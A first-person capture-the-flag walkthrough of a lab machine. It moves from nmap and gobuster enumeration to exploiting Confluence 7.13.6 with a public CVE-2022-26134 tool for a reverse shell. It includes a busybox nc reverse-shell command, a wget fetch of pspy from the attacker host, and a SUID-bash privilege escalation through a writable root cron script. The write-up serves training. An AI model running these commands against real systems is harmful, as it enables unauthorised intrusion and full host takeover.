


As always, I started the machine with a comprehensive scan covering all 65,535 TCP ports, which identified ports 22, 8090 and 8091.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-07 18:22 UTC
Nmap scan report for 192.168.120.41
Host is up (0.046s latency).
Not shown: 65532 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
8090/tcp open opsmessaging
8091/tcp open jamlink
Nmap done: 1 IP address (1 host up) scanned in 16.10 seconds
Next, I performed a targeted service scan on the identified ports using the -sC and -sV options.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,8090,8091
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-07 18:22 UTC
Stats: 0:00:21 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 18:23 (0:00:11 remaining)
Nmap scan report for 192.168.120.41
Host is up (0.046s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 02:79:64:84:da:12:97:23:77:8a:3a:60:20:96:ee:cf (ECDSA)
|_ 256 dd:49:a3:89:d7:57:ca:92:f0:6c:fe:59:a6:24:cc:87 (ED25519)
8090/tcp open http Apache Tomcat (language: en)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Log In - Confluence
|_Requested resource was /login.action?os_destination=%2Findex.action&permissionViolation=true
8091/tcp open jamlink?
| fingerprint-strings:
| FourOhFourRequest:
| HTTP/1.1 204 No Content
| Server: Aleph/0.4.6
| Date: Sat, 07 Feb 2026 18:23:34 GMT
| Connection: Close
| GetRequest:
| HTTP/1.1 204 No Content
| Server: Aleph/0.4.6
| Date: Sat, 07 Feb 2026 18:23:03 GMT
| Connection: Close
| HTTPOptions:
| HTTP/1.1 200 OK
| Access-Control-Allow-Origin: *
| Access-Control-Max-Age: 31536000
| Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
| Server: Aleph/0.4.6
| Date: Sat, 07 Feb 2026 18:23:03 GMT
| Connection: Close
| content-length: 0
| Help, Kerberos, LDAPSearchReq, LPDString, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
| HTTP/1.1 414 Request-URI Too Long
| text is empty (possibly HTTP/0.9)
| RTSPRequest:
| HTTP/1.1 200 OK
| Access-Control-Allow-Origin: *
| Access-Control-Max-Age: 31536000
| Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
| Server: Aleph/0.4.6
| Date: Sat, 07 Feb 2026 18:23:04 GMT
| Connection: Keep-Alive
| content-length: 0
| SIPOptions:
| HTTP/1.1 200 OK
| Access-Control-Allow-Origin: *
| Access-Control-Max-Age: 31536000
| Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
| Server: Aleph/0.4.6
| Date: Sat, 07 Feb 2026 18:23:40 GMT
| Connection: Keep-Alive
|_ content-length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
SF-Port8091-TCP:V=7.95%I=7%D=2/7%Time=69878307%P=x86_64-pc-linux-gnu%r(Get
SF:Request,68,"HTTP/1\\.1\\x20204\\x20No\\x20Content\\r\\nServer:\\x20Aleph/0\\.4\\
SF:.6\\r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:23:03\\x20GMT\\r\\nConnecti
SF:on:\\x20Close\\r\\n\\r\\n")%r(HTTPOptions,EC,"HTTP/1\\.1\\x20200\\x20OK\\r\\nAcce
SF:ss-Control-Allow-Origin:\\x20\\*\\r\\nAccess-Control-Max-Age:\\x2031536000\\r
SF:\\nAccess-Control-Allow-Methods:\\x20OPTIONS,\\x20GET,\\x20PUT,\\x20POST\\r\\n
SF:Server:\\x20Aleph/0\\.4\\.6\\r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:23
SF::03\\x20GMT\\r\\nConnection:\\x20Close\\r\\ncontent-length:\\x200\\r\\n\\r\\n")%r(
SF:RTSPRequest,F1,"HTTP/1\\.1\\x20200\\x20OK\\r\\nAccess-Control-Allow-Origin:\\
SF:x20\\*\\r\\nAccess-Control-Max-Age:\\x2031536000\\r\\nAccess-Control-Allow-Me
SF:thods:\\x20OPTIONS,\\x20GET,\\x20PUT,\\x20POST\\r\\nServer:\\x20Aleph/0\\.4\\.6\\
SF:r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:23:04\\x20GMT\\r\\nConnection:
SF:\\x20Keep-Alive\\r\\ncontent-length:\\x200\\r\\n\\r\\n")%r(Help,46,"HTTP/1\\.1\\x
SF:20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(pos
SF:sibly\\x20HTTP/0\\.9\\)")%r(SSLSessionReq,46,"HTTP/1\\.1\\x20414\\x20Request-
SF:URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(possibly\\x20HTTP/0\\.
SF:9\\)")%r(TerminalServerCookie,46,"HTTP/1\\.1\\x20414\\x20Request-URI\\x20Too
SF:\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(possibly\\x20HTTP/0\\.9\\)")%r(TL
SF:SSessionReq,46,"HTTP/1\\.1\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\nt
SF:ext\\x20is\\x20empty\\x20\\(possibly\\x20HTTP/0\\.9\\)")%r(Kerberos,46,"HTTP/1
SF:\\.1\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20
SF:\\(possibly\\x20HTTP/0\\.9\\)")%r(FourOhFourRequest,68,"HTTP/1\\.1\\x20204\\x2
SF:0No\\x20Content\\r\\nServer:\\x20Aleph/0\\.4\\.6\\r\\nDate:\\x20Sat,\\x2007\\x20Fe
SF:b\\x202026\\x2018:23:34\\x20GMT\\r\\nConnection:\\x20Close\\r\\n\\r\\n")%r(LPDStr
SF:ing,46,"HTTP/1\\.1\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20i
SF:s\\x20empty\\x20\\(possibly\\x20HTTP/0\\.9\\)")%r(LDAPSearchReq,46,"HTTP/1\\.1
SF:\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(p
SF:ossibly\\x20HTTP/0\\.9\\)")%r(SIPOptions,F1,"HTTP/1\\.1\\x20200\\x20OK\\r\\nAcc
SF:ess-Control-Allow-Origin:\\x20\\*\\r\\nAccess-Control-Max-Age:\\x2031536000\\
SF:r\\nAccess-Control-Allow-Methods:\\x20OPTIONS,\\x20GET,\\x20PUT,\\x20POST\\r\\
SF:nServer:\\x20Aleph/0\\.4\\.6\\r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:2
SF:3:40\\x20GMT\\r\\nConnection:\\x20Keep-Alive\\r\\ncontent-length:\\x200\\r\\n\\r\\
SF:n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 112.08 seconds
Lastly, I conducted a UDP scan on the top 10 most common ports.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-07 18:25 UTC
Nmap scan report for 192.168.120.41
Host is up (0.047s latency).
PORT STATE SERVICE
53/udp closed domain
67/udp closed dhcps
123/udp closed ntp
135/udp closed msrpc
137/udp closed netbios-ns
138/udp closed netbios-dgm
161/udp open|filtered snmp
445/udp closed microsoft-ds
631/udp closed ipp
1434/udp closed ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 4.85 seconds
Whenever an HTTP service is running, I run the Nmap http-enum script for quick wins. This revealed that port 8090 contained /rest/applinks/1.0/manifest , which pointed to Atlassian Confluence 7.13.6 and /webdav .
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 8090,8091
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-07 18:26 UTC
Nmap scan report for 192.168.120.41
Host is up (0.045s latency).
PORT STATE SERVICE VERSION
8090/tcp open http Apache Tomcat (language: en)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-enum:
| /rest/applinks/1.0/manifest: Atlassian Confluence 7.13.6
|_ /webdav/: Potentially interesting folder (401 )
8091/tcp open jamlink?
| fingerprint-strings:
| FourOhFourRequest:
| HTTP/1.1 204 No Content
| Server: Aleph/0.4.6
| Date: Sat, 07 Feb 2026 18:27:32 GMT
| Connection: Close
| GetRequest:
| HTTP/1.1 204 No Content
| Server: Aleph/0.4.6
| Date: Sat, 07 Feb 2026 18:27:02 GMT
| Connection: Close
| HTTPOptions:
| HTTP/1.1 200 OK
| Access-Control-Allow-Origin: *
| Access-Control-Max-Age: 31536000
| Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
| Server: Aleph/0.4.6
| Date: Sat, 07 Feb 2026 18:27:02 GMT
| Connection: Close
| content-length: 0
| Help, Kerberos, LDAPSearchReq, LPDString, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
| HTTP/1.1 414 Request-URI Too Long
| text is empty (possibly HTTP/0.9)
| RTSPRequest:
| HTTP/1.1 200 OK
| Access-Control-Allow-Origin: *
| Access-Control-Max-Age: 31536000
| Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
| Server: Aleph/0.4.6
| Date: Sat, 07 Feb 2026 18:27:02 GMT
| Connection: Keep-Alive
| content-length: 0
| SIPOptions:
| HTTP/1.1 200 OK
| Access-Control-Allow-Origin: *
| Access-Control-Max-Age: 31536000
| Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
| Server: Aleph/0.4.6
| Date: Sat, 07 Feb 2026 18:27:39 GMT
| Connection: Keep-Alive
|_ content-length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
SF-Port8091-TCP:V=7.95%I=7%D=2/7%Time=698783F6%P=x86_64-pc-linux-gnu%r(Get
SF:Request,68,"HTTP/1\\.1\\x20204\\x20No\\x20Content\\r\\nServer:\\x20Aleph/0\\.4\\
SF:.6\\r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:27:02\\x20GMT\\r\\nConnecti
SF:on:\\x20Close\\r\\n\\r\\n")%r(HTTPOptions,EC,"HTTP/1\\.1\\x20200\\x20OK\\r\\nAcce
SF:ss-Control-Allow-Origin:\\x20\\*\\r\\nAccess-Control-Max-Age:\\x2031536000\\r
SF:\\nAccess-Control-Allow-Methods:\\x20OPTIONS,\\x20GET,\\x20PUT,\\x20POST\\r\\n
SF:Server:\\x20Aleph/0\\.4\\.6\\r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:27
SF::02\\x20GMT\\r\\nConnection:\\x20Close\\r\\ncontent-length:\\x200\\r\\n\\r\\n")%r(
SF:RTSPRequest,F1,"HTTP/1\\.1\\x20200\\x20OK\\r\\nAccess-Control-Allow-Origin:\\
SF:x20\\*\\r\\nAccess-Control-Max-Age:\\x2031536000\\r\\nAccess-Control-Allow-Me
SF:thods:\\x20OPTIONS,\\x20GET,\\x20PUT,\\x20POST\\r\\nServer:\\x20Aleph/0\\.4\\.6\\
SF:r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:27:02\\x20GMT\\r\\nConnection:
SF:\\x20Keep-Alive\\r\\ncontent-length:\\x200\\r\\n\\r\\n")%r(Help,46,"HTTP/1\\.1\\x
SF:20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(pos
SF:sibly\\x20HTTP/0\\.9\\)")%r(SSLSessionReq,46,"HTTP/1\\.1\\x20414\\x20Request-
SF:URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(possibly\\x20HTTP/0\\.
SF:9\\)")%r(TerminalServerCookie,46,"HTTP/1\\.1\\x20414\\x20Request-URI\\x20Too
SF:\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(possibly\\x20HTTP/0\\.9\\)")%r(TL
SF:SSessionReq,46,"HTTP/1\\.1\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\nt
SF:ext\\x20is\\x20empty\\x20\\(possibly\\x20HTTP/0\\.9\\)")%r(Kerberos,46,"HTTP/1
SF:\\.1\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20
SF:\\(possibly\\x20HTTP/0\\.9\\)")%r(FourOhFourRequest,68,"HTTP/1\\.1\\x20204\\x2
SF:0No\\x20Content\\r\\nServer:\\x20Aleph/0\\.4\\.6\\r\\nDate:\\x20Sat,\\x2007\\x20Fe
SF:b\\x202026\\x2018:27:32\\x20GMT\\r\\nConnection:\\x20Close\\r\\n\\r\\n")%r(LPDStr
SF:ing,46,"HTTP/1\\.1\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20i
SF:s\\x20empty\\x20\\(possibly\\x20HTTP/0\\.9\\)")%r(LDAPSearchReq,46,"HTTP/1\\.1
SF:\\x20414\\x20Request-URI\\x20Too\\x20Long\\r\\n\\r\\ntext\\x20is\\x20empty\\x20\\(p
SF:ossibly\\x20HTTP/0\\.9\\)")%r(SIPOptions,F1,"HTTP/1\\.1\\x20200\\x20OK\\r\\nAcc
SF:ess-Control-Allow-Origin:\\x20\\*\\r\\nAccess-Control-Max-Age:\\x2031536000\\
SF:r\\nAccess-Control-Allow-Methods:\\x20OPTIONS,\\x20GET,\\x20PUT,\\x20POST\\r\\
SF:nServer:\\x20Aleph/0\\.4\\.6\\r\\nDate:\\x20Sat,\\x2007\\x20Feb\\x202026\\x2018:2
SF:7:39\\x20GMT\\r\\nConnection:\\x20Keep-Alive\\r\\ncontent-length:\\x200\\r\\n\\r\\
SF:n");
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 263.63 seconds
As already indicated by the Nmap output, accessing the target IP at port 8090 via the browser confirmed it was an Atlassian service.

I performed directory brute-forcing with Gobuster , which returned multiple directories, including /webdav . I attempted to connect to /webdav using cadaver , but the connection was unsuccessful.
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP:8090> -w /usr/share/seclists/Discovery/Web-Content/common.txt --exclude-length 0
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: <http://192.168.120.41:8090>
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 404
[+] Exclude Length: 0
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/activity (Status: 200) [Size: 417]
/favicon.ico (Status: 200) [Size: 4259]
/status (Status: 200) [Size: 19]
/webdav (Status: 401) [Size: 699]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
I looked up Confluence in Searchsploit , but none of the available exploits matched version 7.13.6.
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit confluence
-------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
AppFusions Doxygen for Atlassian Confluence 1.3.2 - Cross-Site Scripting | java/webapps/40817.txt
Atlassian Confluence 3.4.x - Error Page Cross-Site Scripting | multiple/webapps/37791.txt
Atlassian Confluence 5.2/5.8.14/5.8.15 - Multiple Vulnerabilities | xml/webapps/39170.txt
Atlassian Confluence 6.15.1 - Directory Traversal | jsp/webapps/47621.py
Atlassian Confluence 6.15.1 - Directory Traversal (Metasploit) | jsp/webapps/47635.rb
Atlassian Confluence 7.12.2 - Pre-Authorization Arbitrary File Read | java/webapps/50377.txt
Atlassian Confluence < 5.10.6 - Persistent Cross-Site Scripting | jsp/webapps/40989.txt
Atlassian Confluence < 8.5.3 - Remote Code Execution | multiple/webapps/51904.py
Atlassian Confluence AppFusions Doxygen 1.3.0 - Directory Traversal | java/webapps/40794.txt
Atlassian Confluence Data Center and Server - Authentication Bypass (Metasploit) | multiple/webapps/51829.rb
Atlassian Confluence Widget Connector Macro - SSTI | multiple/webapps/49465.py
Atlassian Confluence Widget Connector Macro - Velocity Template Injection (Metasploit) | multiple/remote/46731.rb
Confluence Data Center 7.18.0 - Remote Code Execution (RCE) | java/webapps/50952.py
Confluence Server 7.12.4 - 'OGNL injection' Remote Code Execution (RCE) (Unauthenticated) | java/webapps/50243.py
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
By searching for vulnerabilities for this specific version on Google, I discovered a Github repository containing an exploit. The author noted it had been tested against versions 7.13.5 and 7.18.0, which looked very promising.
https://github.com/jbaines-r7/through_the_wire
I downloaded the exploit to my local machine.
┌──(kali㉿kali)-[~/Desktop]
└─$ git clone <https://github.com/jbaines-r7/through_the_wire.git>
Cloning into 'through_the_wire'...
remote: Enumerating objects: 25, done.
remote: Counting objects: 100% (25/25), done.
remote: Compressing objects: 100% (22/22), done.
remote: Total 25 (delta 12), reused 8 (delta 3), pack-reused 0 (from 0)
Receiving objects: 100% (25/25), 11.17 KiB | 11.17 MiB/s, done.
Resolving deltas: 100% (12/12), done.
confluenceUsing the exploit, I successfully obtained a shell as the confluence user.
┌──(kali㉿kali)-[~/Desktop/through_the_wire]
└─$ python3 through_the_wire.py --rhost $IP --rport 8090 --lhost 192.168.45.229 --protocol http:// --reverse-shell
/home/kali/Desktop/through_the_wire/through_the_wire.py:24: SyntaxWarning: invalid escape sequence '\\ '
print(" /__ \\ |__ _ __ ___ _ _ __ _| |__ ")
/home/kali/Desktop/through_the_wire/through_the_wire.py:25: SyntaxWarning: invalid escape sequence '\\/'
print(" / /\\/ '_ \\| '__/ _ \\| | | |/ _` | '_ \\ ")
/home/kali/Desktop/through_the_wire/through_the_wire.py:27: SyntaxWarning: invalid escape sequence '\\/'
print(" \\/ |_| |_|_| \\___/ \\__,_|\\__, |_| |_|")
/home/kali/Desktop/through_the_wire/through_the_wire.py:30: SyntaxWarning: invalid escape sequence '\\ '
print(" /__ \\ |__ ___ / / /\\ \\ (_)_ __ ___ ")
/home/kali/Desktop/through_the_wire/through_the_wire.py:31: SyntaxWarning: invalid escape sequence '\\/'
print(" / /\\/ '_ \\ / _ \\ \\ \\/ \\/ / | '__/ _ \\ ")
/home/kali/Desktop/through_the_wire/through_the_wire.py:32: SyntaxWarning: invalid escape sequence '\\ '
print(" / / | | | | __/ \\ /\\ /| | | | __/ ")
/home/kali/Desktop/through_the_wire/through_the_wire.py:33: SyntaxWarning: invalid escape sequence '\\/'
print(" \\/ |_| |_|\\___| \\/ \\/ |_|_| \\___| ")
_____ _ _
/__ \\ |__ _ __ ___ _ _ __ _| |__
/ /\\/ '_ \\| '__/ _ \\| | | |/ _` | '_ \\
/ / | | | | | | (_) | |_| | (_| | | | |
\\/ |_| |_|_| \\___/ \\__,_|\\__, |_| |_|
|___/
_____ _ __ __ _
/__ \\ |__ ___ / / /\\ \\ (_)_ __ ___
/ /\\/ '_ \\ / _ \\ \\ \\/ \\/ / | '__/ _ \\
/ / | | | | __/ \\ /\\ /| | | | __/
\\/ |_| |_|\\___| \\/ \\/ |_|_| \\___|
jbaines-r7
CVE-2022-26134
"Spit my soul through the wire"
🦞
[+] Forking a netcat listener
[+] Using /usr/bin/nc
[+] Generating a reverse shell payload
[+] Sending expoit at <http://192.168.120.41:8090/>
listening on [any] 1270 ...
connect to [192.168.45.229] from (UNKNOWN) [192.168.120.41] 60858
bash: cannot set terminal process group (820): Inappropriate ioctl for device
bash: no job control in this shell
confluence@flu:/opt/atlassian/confluence/bin$ whoami
whoami
confluence
confluence@flu:/opt/atlassian/confluence/bin$
Since the initial shell was unstable, I forwarded the reverse shell to my penelope listener using busybox and nc .
confluence@flu:/opt/atlassian/confluence/bin$ which busybox
which busybox
/usr/bin/busybox
confluence@flu:/opt/atlassian/confluence/bin$ which nc
which nc
/usr/bin/nc
confluence@flu:/opt/atlassian/confluence/bin$ busybox nc 192.168.45.229 443 -e /bin/bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 penelope.py -p 443
[+] Listening for reverse shells on 0.0.0.0:443 → 127.0.0.1 • 192.168.136.128 • 172.20.0.1 • 172.17.0.1 • 192.168.45.229
➤ 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[-] Invalid shell from 192.168.120.41 🙄
[+] Got reverse shell from flu~192.168.120.41-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12
[+] Logging to /home/kali/.penelope/sessions/flu~192.168.120.41-Linux-x86_64/2026_02_07-19_10_27-115.log 📜
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
confluence@flu:/opt/atlassian/confluence/bin$ whoami
confluence
confluence@flu:/opt/atlassian/confluence/bin$
Found local.txt
confluence@flu:/home/confluence$ ls -la
total 24
drwxr-xr-x 4 confluence confluence 4096 Jan 31 16:41 .
drwxr-xr-x 3 root root 4096 Dec 12 2023 ..
-rw------- 1 confluence confluence 16 Dec 12 2023 .bash_history
drwxr-x--- 3 confluence confluence 4096 Jan 31 16:41 .cache
drwxr-x--- 3 confluence confluence 4096 Jan 31 16:40 .java
-rw-r--r-- 1 confluence confluence 33 Feb 7 18:20 local.txt
confluence@flu:/home/confluence$ cat local.txt
a3e...
While searching for privilege escalation vectors, I found a highly unusual script named log-backup.sh in the /opt directory, owned by the confluence user.
confluence@flu:/opt$ ls -la
total 756692
drwxr-xr-x 3 root root 4096 Dec 12 2023 .
drwxr-xr-x 19 root root 4096 Dec 12 2023 ..
drwxr-xr-x 3 root root 4096 Dec 12 2023 atlassian
-rwxr-xr-x 1 root root 774829955 Dec 12 2023 atlassian-confluence-7.13.6-x64.bin
-rwxr-xr-x 1 confluence confluence 408 Dec 12 2023 log-backup.sh
The log-backup.sh file appears to be a script that creates backups of the Confluence server’s log files and perform cleanup afterward.
confluence@flu:/opt$ cat log-backup.sh
#!/bin/bash
CONFLUENCE_HOME="/opt/atlassian/confluence/"
LOG_DIR="$CONFLUENCE_HOME/logs"
BACKUP_DIR="/root/backup"
TIMESTAMP=$(date "+%Y%m%d%H%M%S")
# Create a backup of log files
cp -r $LOG_DIR $BACKUP_DIR/log_backup_$TIMESTAMP
tar -czf $BACKUP_DIR/log_backup_$TIMESTAMP.tar.gz $BACKUP_DIR/log_backup_$TIMESTAMP
# Cleanup old backups
find $BACKUP_DIR -name "log_backup_*" -mmin +5 -exec rm -rf {} \\;
I transferred pspy64 to the target host to monitor running processes.
confluence@flu:/tmp$ wget <http://192.168.45.229/pspy64> pspy64
--2026-02-07 19:40:51-- <http://192.168.45.229/pspy64>
Connecting to 192.168.45.229:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’
pspy64 100%[==============================================================>] 2.96M 4.57MB/s in 0.6s
2026-02-07 19:40:51 (4.57 MB/s) - ‘pspy64’ saved [3104768/3104768]
--2026-02-07 19:40:51-- <http://pspy64/>
Resolving pspy64 (pspy64)... failed: Temporary failure in name resolution.
wget: unable to resolve host address ‘pspy64’
FINISHED --2026-02-07 19:40:51--
Total wall clock time: 0.8s
Downloaded: 1 files, 3.0M in 0.6s (4.57 MB/s)
I discovered that the root user was executing the log-backup.sh script on a regular basis.

I modified the script’s contents to set the SUID bit on the /bin/bash binary.
confluence@flu:/opt$ echo "chmod u+s /bin/bash" > log-backup.sh
confluence@flu:/opt$ cat log-backup.sh
chmod u+s /bin/bash
After a short wait, I confirmed that the /bin/bash binary had the SUID bit set.
confluence@flu:/opt$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1437832 Jan 7 2023 /bin/bash
confluence@flu:/opt$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1437832 Jan 7 2023 /bin/bash
rootI was then able to obtain a root shell by executing the /bin/bash -p command.
confluence@flu:/opt$ /bin/bash -p
bash-5.2# whoami
root
Found proof.txt
bash-5.2# cat proof.txt
c78...